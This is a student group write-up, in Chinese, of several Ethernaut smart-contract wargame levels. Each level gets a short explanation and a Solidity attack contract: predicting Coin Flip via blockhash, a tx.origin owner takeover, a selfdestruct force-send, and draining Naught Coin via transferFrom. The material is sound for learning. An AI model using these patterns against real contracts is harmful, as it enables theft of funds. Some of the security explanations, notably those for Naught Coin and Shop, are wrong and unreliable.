 # 團體作業 - 第三組

## 共同討論完成所有 [Ethernaut](https://ethernaut.openzeppelin.com/) 題目

1. 共同討論完成所有 Ethernaut 題目：[https://ethernaut.openzeppelin.com/](https://ethernaut.openzeppelin.com/)
    * 若卡關可以偷偷網路上搜尋解答，建議可以先思考討論再看答案

<!-- https://cyanwingsbird.blog/solidity/ethernaut/1-fallback/

https://xz.aliyun.com/t/7173

https://cloud.tencent.com/developer/article/2235227 -->

---

### Ethernautu遊戲學習重點:

* 安全問題
* 涉及合約的分析
* 攻擊流程的演示

--

3. Coin Flip

隨機數用 blockhash 容易被預測而變成攻擊目標，建議使用第三方服務，像是 chainLink 來取得隨機數。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract CoinFlipAttack {
    ICoinFlip constant private target = ICoinFlip(await contract獲取的實體地址);
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        target.flip(side);
    }
}
```

```
Number(await contract.consecutiveWins())
```

![](https://i.imgur.com/OPkrhp2.png)

--

4. Telephone

在智能合約編程中，盡量不要使用 x.origin，因為它容易受到攻擊，即攻擊者可以偽造訊息，將其發送給一個合約，同時將 x.origin 偽造成另一個地址，從而騙取合約的某些權限。相反，msg.sender 更加安全，因為它不容易被攻擊者偽造。

```
pragma solidity ^0.8;

interface ITelephone {
    function owner() external view returns (address);
    function changeOwner(address) external;
}

contract Hack {
    constructor(address _target) {
        // tx.origin = msg.sender
        // msg.sender = address(this)
        ITelephone(_target).changeOwner(msg.sender);
    }
}
/*
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

![](https://i.imgur.com/o6HLfym.png)

--

7. Force

selfdestruct 可以讓一個合約在自我銷毀之前將其餘的以太幣發送到一個指定的地址。攻擊者可以利用合約內的漏洞，使得目標合約在執行自毀函數時，將合約餘額轉移給攻擊者控制的地址，從而實現向目標合約強制轉賬。建議避免在合約內部存儲過多的以太幣，限制自毀函數的權限等。
```
pragma solidity ^0.8;

contract Hack {
    constructor(address payable _target) payable {
        selfdestruct(_target);
    }
}
```

![](https://i.imgur.com/eKZUN4u.png)

--

15. Naught Coin

為了防止這種漏洞，合約應該使用 SafeMath 庫來避免整數溢出攻擊。此外，合約應該在對代幣數量進行操作之前，應該先檢查操作是否合法，例如檢查代幣數量是否超過了合約的最大值。開發者還可以使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
pragma solidity ^0.8;

interface INaughtCoin {
    function player() external view returns (address);
}

interface IERC20 {
    function balanceOf(address account) external view returns (uint256);
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address sender, address recipient, uint256 amount) external returns (bool);
}

// 1. Deploy
// 2. coin.approve(hack, amount)
// 3. pwn
contract Hack {
    function pwn(IERC20 coin) external {
        address player = INaughtCoin(address(coin)).player();
        uint256 bal = coin.balanceOf(player);
        coin.transferFrom(player, address(this), bal);
    }
}
```
![](https://i.imgur.com/7iDsLJs.png)

--

21. Shop

該合約的漏洞在於，合約在購買商品時並未檢查商品的價格是否為0。合約應該在購買商品之前檢查商品的價格是否為正確的價格，也應該在購買商品時檢查付款是否等於商品價格。這些檢查可以通過實現合約中的相應函數來實現，例如在購買商品時實現一個 buyItem 函數，在其中進行價格檢查和付款檢查。此外，還可以使用 SafeMat h庫來避免整數溢出攻擊，以及使用 require 語句來確保合約在滿足特定條件時才能繼續執行。

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
![](https://i.imgur.com/0P00J1K.png)
